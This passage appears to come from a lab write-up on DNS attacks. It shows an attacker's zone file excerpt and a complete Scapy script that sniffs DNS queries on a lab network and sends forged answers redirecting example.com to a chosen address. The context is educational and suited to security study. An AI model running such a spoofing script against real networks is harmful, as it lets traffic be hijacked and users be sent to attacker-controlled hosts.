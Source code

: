##### example.com zone file 
The following is an excerpt of the zone file that is present on the attacker's DNS server.

```
@       IN      A     1.2.3.4
www     IN      A     1.2.3.5
ns      IN      A     10.9.0.153
*       IN      A     1.2.3.6
```

<br>

###  Directly Spoofing Response to User
Before a web browser sends a request, the computer performs a DNS resolution to get the IP address of the web site. If an attacker is sniffing for traffic, captures the request, and spoofs a response, in as much as the spoofed response comes back to the computer earlier than the real reply, the machine will accept the fake reply.

```python
#!/usr/bin/env python3
from scapy.all import *

NS_NAME = "example.com"

def spoof_dns(pkt):
    if NS_NAME in pkt[DNS].qd.qname.decode():
        print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))
        
        # Create an IP object
        ip = IP(src = pkt[IP].dst, dst = pkt[IP].src)
        
        # Create a UDP object
        udp = UDP(sport = pkt[UDP].dport, dport = pkt[UDP].sport) 
        
        # Create an answer record
        ansec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
            ttl = 1024, rdata = '1.2.3.4')
            
        # Create a DNS object 
        dns = DNS(id = pkt[DNS].id,
            aa = 1, rd = 0, qr = 1, qdcount = 1, ancount = 1,
            qd = pkt[DNS].qd, an = ansec) 
        
        # Send the spoofed DNS packet
        send(ip / udp / dns, verbose=0) 

myFilter = "udp port 53 && src host 10.9.0.5 && (not ether host 02:42:82:ce:39:30)"
print('running...')
sniff(iface='br-eb50d439f380', filter=myFilter, prn=spoof_dns)
```

***python program to spoof DNS response***

![spoof-code](https://github.com/iukadike/iukadike.github.io/assets/58455326/7055719c-7779-435b-9ff8-9fb47b940f84)
